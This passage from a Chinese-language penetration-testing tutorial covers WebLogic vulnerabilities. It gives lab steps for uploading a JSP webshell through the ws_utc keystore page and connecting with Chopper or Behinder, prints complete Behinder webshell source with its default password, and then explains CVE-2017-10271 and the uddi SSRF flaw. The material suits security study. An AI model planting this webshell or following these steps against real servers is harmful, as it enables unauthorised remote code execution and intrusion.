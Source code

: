 **4、然后点击 ‘安全’ -> ‘添加’ ，然后上传jsp大马**

**![image-20210404015207869](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404015207869.png)**

**5、上传成功后，按F12，找到时间戳，访问http://192.168.58.128:7001/ws_utc/css/config/keystore/[时间戳]_[文件名]，即可执行webshell**

- **这里也可以使用BP抓包查看时间戳，但有点麻烦，因人而异。**

**![image-20210404015334835](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404015334835.png)**

**![image-20210404015603230](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404015603230.png)**

**6、尝试利用菜刀或者冰蝎去连接，注意这里的脚本类型为jsp，输入密码连接成功，得到shell。**

**![image-20210404015906643](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404015906643.png)**

**![image-20210404015955042](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404015955042.png)**

**大马附件：**

```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```





##  **WebLogic反序列化远程命令执行漏洞**

- **编号：CVE-2017-10271**
- **影响版本：10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3**
- **本质为任意文件上传漏洞**

**SSRF:**

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件

**服务端请求伪造（Server-Side Request Forgery）**，是指Web服务提供从用户指定的URL读取数据并展示功能又未

对用户输入的URL进行过滤，导致攻击者可借助服务端实现访问其本无权访问的URL。

攻击者无权访问的URL主要是内网，而对于不是Web服务的其他端口反回的一般是端口对应的服务的banner信息，

所以SSRF的一大利用是探测内网端口开放信息。（所以SSRF归类为信息泄漏类型）

**漏洞出现位置与解决方法：**

Weblogic服务端请求伪造漏洞出现在uddi组件（所以安装Weblogic时如果没有选择uddi组件那么就不会有该漏洞），

更准确地说是uudi包实现包uddiexplorer.war下的SearchPublicRegistries.jsp。
